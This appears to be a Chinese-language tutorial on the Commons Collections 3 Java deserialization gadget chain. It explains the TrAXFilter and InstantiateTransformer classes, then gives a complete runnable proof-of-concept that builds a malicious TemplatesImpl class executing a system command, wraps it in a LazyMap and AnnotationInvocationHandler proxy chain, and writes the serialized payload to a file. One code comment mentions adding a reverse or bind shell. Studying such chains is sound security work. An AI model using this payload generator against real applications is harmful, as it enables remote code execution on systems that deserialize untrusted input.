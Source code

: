 ## 环境准备

JDK1.7(7u80)、commons-collections(3.x 4.x均可这里使用3.2版本)、javassist(3.12.1.GA)

JDK：https://repo.huaweicloud.com/java/jdk/7u80-b15/jdk-7u80-windows-x64.exe

cc4.0、ClassPool的mvn依赖如下

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2</version>
</dependency>
<dependency>
    <groupId>javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.12.1.GA</version>
</dependency>

```

因为这里用到了Proxy，所以JDK8新版本中不可用，在CC5中提到了一种新的利用方式，可以不通过Proxy来调用。

## 正文

CC3 攻击链的关键在于利用 **`Templates`** 和 **`ChainedTransformer`**、 **`ConstantTransformer`**、**`InstantiateTransformer`**类来形成一系列的反射调用，最终触发恶意类的加载或执行。

本质上来说CC3攻击链条是CC2中的`Templates`部分+CC1中的`Proxy`部分，所以大家都说CC3是CC1和CC2的变种写法。其实CC攻击链并非只有一种固定写法，可以通过多种写法的结合来完成新的攻击链，当把`ysoserial`中的CC链学完之后，就可以自己尝试自由组合。

CC3中多了几个类：

## TrAXFilter

`TrAXFilter` 类是 Java 中 XML 处理相关的一个类，属于 Java XML API 的一部分。它主要用于过滤和处理 XML 数据流。`TrAXFilter` 实现了 `javax.xml.transform.sax.SAXResult` 接口，提供了对 XML 数据流的接收、处理和转换能力。在一些利用中，特别是在 Java 反序列化漏洞的利用链（如 CC3）中，`TrAXFilter` 被用作利用链的一部分，因为它的构造函数涉及到了 `Templates` 类对象，并且其操作可以被利用来执行恶意代码。

### CC3中的应用

**配合 `ChainedTransformer`：** 在 CC3 中，`TrAXFilter` 通常与 **`ChainedTransformer`** 类结合使用。`ChainedTransformer` 允许多个 `Transformer` 被顺序调用，从而达到多层嵌套和最终执行恶意操作的效果。`TrAXFilter` 是作为其中一个 `Transformer` 使用的，它的构造函数需要传入 `Templates` 对象，而 `Templates` 可以携带恶意字节码。

**执行恶意代码：** 当反序列化触发时，构造的 `TrAXFilter` 会被激活，并且它会通过 `Templates` 生成恶意的 XML 转换过程。具体来说，`TrAXFilter` 作为一个过滤器，可以与 `Templates` 类结合，完成从普通 XML 到恶意命令的转换。这就允许通过 XML 数据流来触发恶意代码的执行。

### 关键代码

```java
public class TrAXFilter extends XMLFilterImpl {
    private Templates              _templates;
    private TransformerImpl        _transformer;
    private TransformerHandlerImpl _transformerHandler;
    private boolean _overrideDefaultParser;
	// 构造函数接收一个Templates参数
    public TrAXFilter(Templates templates)  throws
        TransformerConfigurationException
    {
        _templates = templates;
        // 执行templates的newTransformer方法，而newTransformer就是CC2链中提到的最终执行恶意代码的逻辑
        _transformer = (TransformerImpl) templates.newTransformer();
        _transformerHandler = new TransformerHandlerImpl(_transformer);
        _overrideDefaultParser = _transformer.overrideDefaultParser();
    }
}
```

## InstantiateTransformer

有了上述 gadget ，接下来的重点就是需要我们实例化这个 TrAXFilter，实例化我们当然可以使用 InvokerTransformer 反射拿到 Constructor 再 newInstance，但是同样地可以直接使用另外一个 Transformer：InstantiateTransformer。

Commons Collections 提供了 InstantiateTransformer 用来通过反射创建类的实例，可以看到 `transform()` 方法实际上接收一个 Class 类型的对象，通过 `getConstructor` 获取构造方法，并通过 `newInstance` 创建类实例。

### 关键代码

```java
public class InstantiateTransformer implements Transformer, Serializable {
    private final Class[] iParamTypes;
    private final Object[] iArgs;

    public InstantiateTransformer(Class[] paramTypes, Object[] args) {
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
    public Object transform(Object input) {
    	......
        // 获取input的Class对象的构造方法，并调用构造方法创建实例对象
        // 如果input=TrAXFilter.class，iParamTypes=Templates.class。则最终就能调用到TrAXFilter(Templates templates)
        Constructor con = ((Class)input).getConstructor(this.iParamTypes);
        return con.newInstance(this.iArgs);
        ......
    }
}
```

基于CC2和CC1的内容，我们可以构造出来以下的POC代码

## POC - ysoserial代码

下边的代码还是基于ysoserial的代码的改造版本，不使用ysoserial中的模板代码和工具类，下边的代码可以直接在本地运行。

```java
public class CommonsCollections3 {
    static String serialFileName = "commons-collections3.ser";

    public static void main(String[] args) throws Exception {
        cc3byYsoSerial();
        verify();
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static void cc3byYsoSerial() throws Exception {
        //==========================CC2中的构造Templates的内容 START==========================
        String executeCode = "Runtime.getRuntime().exec(\"cmd /c start\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());
        //==========================CC2中的构造Templates的内容 END==========================

        //========================CC3的新增调用方式START==============================
        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] { Templates.class },
                        new Object[] { templates } )};
        //=========================CC3的新增调用方式 END===================================

        //=========================CC1中的动态代理方式 反序列化触发 START===========================
        // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);

        // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
        // 构造动态代理
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        // 创建携带着 LazyMap 的 AnnotationInvocationHandler 实例
        InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
        // 创建LazyMap的动态代理类实例
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), LazyMap.class.getInterfaces(), handler);

        // 使用动态代理初始化 AnnotationInvocationHandler
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
        //=========================CC1中的动态代理方式 反序列化触发 END===========================

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(invocationHandler);
        oos.flush();
        oos.close();
        fos.close();
    }
}
```

运行效果如下

![image-20241119105439855](./main.assets/image-20241119105439855.png)

## 调用链

调用链就是CC1和CC2的结合版本，如下：

* ObjectInputStream.readObject()
  * AnnotationInvocationHandler.readObject()
    * Map(Proxy).entrySet()
      * AnnotationInvocationHandler.invoke()
        * LazyMap.get()
          * ChainedTransformer.transform()
            * ConstantTransformer.transform()		TrAXFilter
            * InvokerTransformer.transform()		  Templates
              * TrAXFilter()				           Templates
                * TemplatesImpl.newTransformer()
                * TemplatesImpl.getTransletInstance()
                * ......
                * 触发静态代码调用

